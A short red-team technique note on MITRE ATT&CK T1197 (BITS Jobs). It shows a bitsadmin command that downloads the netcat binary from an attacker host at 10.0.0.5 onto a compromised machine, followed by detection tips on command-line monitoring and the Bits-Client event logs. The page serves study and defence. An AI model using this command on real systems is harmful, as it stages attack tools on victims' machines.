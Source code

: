 ```yaml
---
layout: post
title: "t1197 bits jobs"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persistence/
---
```


---
description: File upload to the compromised system.
---

# BITS Jobs

## Execution

{% code title="attacker@victim" %}
```c
bitsadmin /transfer myjob /download /priority high http://10.0.0.5/nc64.exe c:\temp\nc.exe
```
{% endcode %}

![](../../.gitbook/assets/bits-download.png)

## Observations

Commandline arguments monitoring can help discover bitsadmin usage:

![](../../.gitbook/assets/bits-cmdline.png)

`Application Logs > Microsoft > Windows > Bits-Client > Operational` shows logs related to jobs, which you may want to monitor as well. An example of one of the jobs:

![](../../.gitbook/assets/bits-operational-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1197" %}
@spotheplanet
